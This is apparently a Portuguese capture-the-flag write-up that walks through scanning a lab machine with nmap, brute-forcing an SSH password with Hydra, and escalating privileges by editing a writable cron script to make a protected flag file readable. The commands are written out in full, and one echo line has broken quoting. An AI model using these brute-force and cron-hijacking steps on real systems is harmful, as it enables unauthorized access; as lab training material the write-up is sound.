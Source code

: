 # _**Execução**_
Primeiro, buscamos em qual porta está localizado o SSH com o comando abaixo
> ```bash
> nmap -p 0-10000 -sV -A -T5 [ip_address]
> ```

porta 4567  
Vamos tentar um brute force com o Hydra no usuário sam  
> ```bash
> hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://[ip_address]:[port]
> ```

Senha: chocolate  
Realizamos login via SSH  
> ```bash
> ssh -p 4567 sam@[ip_address]
> ```

E logo na primeira tela, damos um ls para verificar quais arquivos estão neste diretório: flag1.txt  
Para a escalação de privilégios utilizando cron, vamos fazer o seguinte para encontrar o arquivo flag2.txt  
> ```bash
> find / -type f -name flag2.txt 2>/dev/null
> ```

Tentar ler o aqruivo com cat
```cat /home/ubuntu/flag2.txt```

Permissão negada  
```ls -l /home/ubuntu/flag2.txt```
```-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 /home/ubuntu/flag2.txt```

Na pasta /home/scripts do usuário Sam, verificamos quais arquivos estão ali  
Um deles chama a atenção, clean_up.sh, do qual temos permissão de escrita  
Então, executamos o comando abaixo
> ```bash
> echo "bash -c "cat /home/ubuntu/flag2.txt" >> clean_up.sh
> ```

E em seguida, ```./clean_up.sh```
Sua execução tem permissão negada  
Navegamos para o diretório /home/ubuntu e dentro dele, alteramos o conteúdo de clean_up.sh com a seguinte linha  
```chmod 777 /home/ubuntu/flag2.txt```

E damos um ls -l
Vemos que temos permissão para ler o arquivo flag2.txt e obter o que queremos
